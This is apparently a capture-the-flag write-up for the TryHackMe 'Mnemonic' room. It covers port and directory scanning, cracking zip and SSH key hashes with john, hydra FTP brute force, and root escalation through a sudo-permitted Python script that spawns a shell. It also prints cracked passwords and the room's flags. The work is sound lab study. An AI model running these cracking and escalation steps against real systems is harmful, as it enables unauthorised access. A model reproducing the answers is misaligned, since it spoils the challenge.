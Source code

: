 # Mnemonic

## Mnemonic

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](.gitbook/assets/image%20%28163%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](.gitbook/assets/image%20%28144%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](.gitbook/assets/image%20%28162%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28149%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28161%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](.gitbook/assets/image%20%28141%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](.gitbook/assets/image%20%28142%29.png)

![](.gitbook/assets/image%20%28154%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](.gitbook/assets/image%20%28140%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](.gitbook/assets/image%20%28169%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](.gitbook/assets/image%20%28138%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](.gitbook/assets/image%20%28151%29.png)

![](.gitbook/assets/image%20%28139%29.png)

![](.gitbook/assets/image%20%28150%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](.gitbook/assets/image%20%28152%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](.gitbook/assets/image%20%28170%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](.gitbook/assets/image%20%28148%29.png)

![](.gitbook/assets/image%20%28153%29.png)

![](.gitbook/assets/image%20%28160%29.png)

![](.gitbook/assets/image%20%28134%29.png)

![](.gitbook/assets/image%20%28158%29.png)

![](.gitbook/assets/image%20%28159%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](.gitbook/assets/image%20%28143%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](.gitbook/assets/image%20%28135%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](.gitbook/assets/image%20%28166%29.png)

![](.gitbook/assets/image%20%28137%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](.gitbook/assets/image%20%28168%29.png)

![](.gitbook/assets/image%20%28136%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}

